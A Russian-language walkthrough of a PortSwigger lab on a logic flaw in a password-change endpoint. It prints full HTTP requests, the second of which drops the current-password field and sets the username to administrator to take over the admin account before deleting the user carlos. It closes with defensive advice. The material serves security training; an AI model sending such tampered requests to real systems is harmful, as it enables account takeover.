


лаба https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-weak-isolation-on-dual-use-endpoint

есть баг с уровнем привилегий пользователя
(на основе его входных данных)

задание:
получите доступ к `administrator` учетная запись и удаление пользователя `carlos`

-----
базар там про то, что программисты (не все ) (или просто ленивые попы) (я сам ios-ер) доверяют тому, что приходит от юзера. Типа, если в запросе прилетело `"admin": true` или `"role": "administrator"`, они такие: "О, ну значит он админ, пускай всё хуярит"


------

в лабе вижу - что есть функциональность - смена пароля, смена емейла

вот запрос который меняет пароль

```http
POST /my-account/change-password HTTP/2
Host: 0a2c003203e38d658129e36c004b00f5.web-security-academy.net
Cookie: session=pjh8icp5MhaTFdJ6wYPIseF3jSh52av7
Content-Length: 114
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a2c003203e38d658129e36c004b00f5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a2c003203e38d658129e36c004b00f5.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=ljg1m6AQVKSVS5xkPrdaKLwAWejyIFcd&username=wiener&current-password=peter&new-password-1=123&new-password-2=123
```

вводим ник (зачем-то)
вводим старый пароль + дважды новый пароль

может можно как-то сменить пароль другому юзеру? 


так как пароль админа я не знаю
то пробовал его не вводить - но не прокатывало
но сразу убрал параметр &current-password= 
и ответ пришел 200 с текстом Password changed successfully! 

```http
POST /my-account/change-password HTTP/2
Host: 0a2c003203e38d658129e36c004b00f5.web-security-academy.net
Cookie: session=pjh8icp5MhaTFdJ6wYPIseF3jSh52av7
Content-Length: 98
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0a2c003203e38d658129e36c004b00f5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a2c003203e38d658129e36c004b00f5.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=ljg1m6AQVKSVS5xkPrdaKLwAWejyIFcd&username=administrator&new-password-1=123&new-password-2=123
```




зашел  в ак админа (такие бизнес-логик лабы меня удивляют все больше)
удалил карлоса - лаба решена!




-----

### ЗАЩИТА

не доверять тому, че приходит от клиента (я перехватил запрос и поменял его как мне угодно)

нужно связывать куки и токены для связи залогиненного аккаунта с его действиями

нужно проверять права / роли, то есть я смог сменить пароль админ используя куки и все параметры собственного wiener аккаунта

и еще так получиллось - что я сделал запрос от обычного юзера на смену пароля - при этом изменил параметры запроса (смог использовать нестандартный запрос для обычного юзера)


